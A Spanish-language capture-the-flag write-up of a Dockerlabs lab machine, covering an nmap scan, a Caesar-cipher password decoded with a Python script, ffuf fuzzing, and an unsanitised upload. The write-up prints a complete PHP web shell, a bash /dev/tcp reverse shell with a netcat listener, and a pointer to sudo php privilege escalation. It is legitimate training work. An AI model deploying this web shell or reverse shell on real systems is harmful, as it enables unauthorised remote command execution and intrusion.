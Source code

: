 Fecha: 03/09/2024

Empiezo escaneando la máquina: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240903165012.png)
Por lo que parece tiene tanto http en el puerto 80 como https en el 443. Hay un fichero llamado backup.txt, que voy a ojear: 
![](Imágenes/Pasted%20image%2020240903165118.png)
Da la contraseña para el usuario `mateo`, que está cifrada con Caesar (que consiste en sumar el valor de una letra a n y luego hacer módulo del mismo). 

Usaré un script similar al que creé para resolver el reto [credstuff](../../picoCTF/Cryptography/Medium/credstuff/credstuff.md) de picoCTF:

```python
import string
letras_minusculas = list(string.ascii_lowercase)

entrada = "hdvbfuadcb"

n_letras = len(letras_minusculas)

for i in range(n_letras):
    salida = ""
    for caracter in entrada:
        salida += letras_minusculas[(letras_minusculas.index(caracter)+i)%n_letras]
    print(salida)
```

De entre todas las salidas la más legible es "easycrxazy", así que probaré con esa primero (cuando sepa donde usarla, claro).

Cuando accedo por https veo que es un "blog" al que los usuarios pueden subir archivos. De momento, hay un "post1.txt" subido, así que pruebo a intentar subir archivos. Pruebo a subir otros "txts" y funciona: 

![](Imágenes/Pasted%20image%2020240903170512.png)

Usaré fuzzing para encontrar el path a los archivos, y ver si podré hacer un local file inclusion:
```bash 
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u https://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

Hay un directorio uploads, en el que se encuentran los archivos:

![](Imágenes/Pasted%20image%2020240903170750.png)
![](Imágenes/Pasted%20image%2020240903170818.png)

Intentaré subir una command line de php como la usado en la máquina [Dockerlabs](./Dockerlabs):
```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
Simplemente me descargo el código del repositorio y lo meto en el archivo "shell.php". Por lo que parece la subida de archivos no está sanitizada, ya que me permite subirlo directamente: 

![](Imágenes/Pasted%20image%2020240903171242.png)

Desde la misma me haré una reverse shell a mi máquina:
```bash
# En la shell virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```


![](Imágenes/Pasted%20image%2020240903172228.png)

Tras probar con todas las contraseñas, intento a quitar la x, que me resultaba rara:

![](Imágenes/Pasted%20image%2020240903172340.png)

Veo que puedo usar php como superusuario, así que compruebo https://gtfobins.github.io/gtfobins/php/#sudo, de forma exitosa:

![](Imágenes/Pasted%20image%2020240903172435.png)
